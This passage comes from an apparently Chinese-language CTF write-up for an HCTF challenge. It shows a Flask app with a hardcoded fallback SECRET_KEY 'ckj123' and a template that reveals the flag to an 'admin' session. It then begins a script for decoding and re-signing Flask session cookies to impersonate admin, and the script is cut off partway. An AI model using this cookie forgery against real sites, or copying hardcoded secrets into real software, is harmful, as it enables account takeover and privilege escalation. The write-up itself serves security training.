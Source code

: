 ```
SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
```

可能SECRET_KEY就是ckj123

然后在index.html页面发现只要session[‘name’] == 'admin’即可以得到flag

```python
{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

改变解密后的name=admin

继续加密,加密脚本

```python
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

```